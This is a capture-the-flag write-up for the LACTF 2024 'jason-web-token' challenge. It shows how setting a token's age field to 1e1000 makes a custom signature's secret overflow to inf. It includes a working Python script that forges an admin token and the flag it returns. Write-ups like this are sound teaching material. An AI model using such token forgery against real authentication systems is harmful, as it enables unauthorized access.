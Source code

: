 ```yaml
---
title: jason-web-token
date: 2024-02-19 08:07
tags: 
- web
- py
- author-hartmannsyg
categories: LACTF 2024
---
```


written by {% person hartmannsyg %}

(I didn't manage to solve this, but we did try putting in huge numbers to no avail. The key was that python parses 1e1000 as an int despite treating it like a float when it comes to actual operations)

This is a custom implementation of tokens similar to the normal JSON web tokens. Let's see the decode token:

```py
def decode_token(token):
    if not token:
        return None, "invalid token: please log in"

    datahex, signature = token.split(".")
    data = bytes.fromhex(datahex).decode()
    userinfo = json.loads(data)
    salted_secret = (secret ^ userinfo["timestamp"]) + userinfo["age"]

    if hash_(f"{data}:{salted_secret}") != signature:
        return None, "invalid token: signature did not match data"
    return userinfo, None
```
the vulnerability here is that if you can make `userinfo["age"]` large enough, salted_secret = inf:
```python
>>> import os
>>> import time
>>> secret = int.from_bytes(os.urandom(128), "big")
>>> secret
4011952375692945687496817245441685307048886621404697235569537713667686161070415037253779930038198895268608425595939277182765910221141137710514755888000270533259466222246741009356066524650748556296726349989472176270636392199394983521282136751830998122883086844853072017401645675862171032499976402033057475140
>>> timestamp = int(time.time())
>>> timestamp
1708322006
>>> salted_secret = (secret ^ timestamp) + 1e1000
>>> salted_secret
inf
```

So if our forged jwt's `userinfo["age"]` is large enough, we can force `salted_secret` to be "inf".
This means the signature will effectively be:
```py
hash_(f"{data}:inf")
```

so we can create a forged "jwt" and send it to /img for the flag:
```py
import requests
import hashlib
hash_ = lambda a: hashlib.sha256(a.encode()).hexdigest()

data = '{"username": "hartmannsyg", "age": 1e1000, "role": "admin", "timestamp": 1708322006}'
jwt = data.encode().hex() + "." + hash_(f"{data}:inf") # (secret^timestamp) + 1e1000 gets converted to inf
print("jwt: " + jwt)

res = requests.get('https://jwt.chall.lac.tf/img',cookies={"token":jwt})
print(res.text)
```

{% ccb terminal:true wrapped:true %}
jwt: 7b22757365726e616d65223a2022686172746d616e6e737967222c2022616765223a203165313030302c2022726f6c65223a202261646d696e222c202274696d657374616d70223a20313730383332323030367d.503e495a02ba3c8a54ed442728f1b13438c51a8136634ab3718eafc0c241096e
{"msg":"Your flag is lactf{pr3v3nt3d_th3_d0s_bu7_47_wh3_c0st}\n","img":"/static/bplet.png"}
{% endccb %}

